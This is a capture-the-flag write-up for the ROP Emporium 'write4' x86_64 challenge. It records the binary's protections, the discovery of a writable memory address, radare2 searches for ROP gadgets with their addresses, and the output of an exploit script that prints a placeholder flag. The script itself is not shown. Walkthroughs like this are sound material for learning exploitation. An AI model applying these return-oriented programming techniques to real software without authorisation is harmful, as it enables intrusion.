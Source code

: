 # ROP Emporium - 04 write4 x86_64

## ELF Binary Info
> $ `rabin2 -I ./write4`  
```
arch     x86
baddr    0x400000
binsz    6521
bintype  elf
bits     64
canary   false
class    ELF64
compiler GCC: (Ubuntu 7.5.0-3ubuntu1~18.04) 7.5.0
crypto   false
endian   little
havecode true
intrp    /lib64/ld-linux-x86-64.so.2
laddr    0x0
lang     c
linenum  true
lsyms    true
machine  AMD x86-64 architecture
maxopsz  16
minopsz  1
nx       true
os       linux
pcalign  0
pic      false
relocs   true
relro    partial
rpath    .
sanitiz  false
static   false
stripped false
subsys   linux
va       true
```
- canary false
- nx true (i.e. DEP enabled)
- pic false (i.e. not PIE)

## Find readable and writeable area of memory
- 1st terminal, run ELF binary and keep it open
- 2nd terminal, search proc maps of running process for readable and writeable memory:
> $ `cat /proc/$(pgrep -f ./write4)/maps | grep rw`
```  
00601000-00602000 rw-p 00001000 fe:01 656469                             /<write4_filepath>
[...]
```
- Step through binary in GDB and search for free memory between `00601000-00602000` to place "flag.txt" string
- Ensure there are null bytes after chosen memory address so that null terminator does not need to be added manually
> $ `gdb -q ./write4`  
> (gdb) `start`  
> (gdb) `disass pwnme`  
```
Dump of assembler code for function pwnme:
[...]
   0x00007fa8efa1092f <+133>:	call   0x7fa8efa10770 <read@plt>
   0x00007fa8efa10934 <+138>:	lea    rdi,[rip+0xf1]        # 0x7fa8efa10a2c
   0x00007fa8efa1093b <+145>:	call   0x7fa8efa10730 <puts@plt>
[...]
End of assembler dump.
```
- Set breakpoint after read() instruction
> (gdb) `b *pwnme+138`  
> (gdb) `c`  
```
Continuing.
write4 by ROP Emporium
x86_64

Go ahead and give me the input already!

> AAAAAAAA
```
> (gdb) `x/512gx 0x601000`  
```
[...]
0x6019f0:	0x0000000000000000	0x0000000000000000
0x601a00:	0x0000000000000000	0x0000000000000000
0x601a10:	0x0000000000000000	0x0000000000000000
[...]
```
- Memory address `0x601a00` looks like it matches criteria

## Get ROP Gadgets
> $ `r2 -A ./write4`  
- Search for gadget that writes to memory
> [0x00400520]> `/R mov qword`  
```
[...]
  0x00400628             4d893e  mov qword [r14], r15
  0x0040062b                 c3  ret
[...]
```
- Search for gadget that pops r14 and pops r15
> [0x00400520]> `/R pop r14`  
```
[...]
  0x00400690               415e  pop r14
  0x00400692               415f  pop r15
  0x00400694                 c3  ret
```
- Search for gadget that pops rdi
> [0x00400520]> `/R pop rdi`  
```
  0x00400693                 5f  pop rdi
  0x00400694                 c3  ret
```
- Luckily there's a function that prints from file
> [0x00400520]> `pdf @ sym.usefulFunction`  
```
╭ 17: sym.usefulFunction ();
│           0x00400617      55             push rbp
│           0x00400618      4889e5         mov rbp, rsp
│           0x0040061b      bfb4064000     mov edi, str.nonexistent    ; 0x4006b4 ; "nonexistent"
│           0x00400620      e8ebfeffff     call sym.imp.print_file
│           0x00400625      90             nop
│           0x00400626      5d             pop rbp
╰           0x00400627      c3             ret
```

## Get Flag
> $ `python get_flag.py`  
```
write4 by ROP Emporium
x86_64

Go ahead and give me the input already!

> Thank you!
ROPE{a_placeholder_32byte_flag!}
```
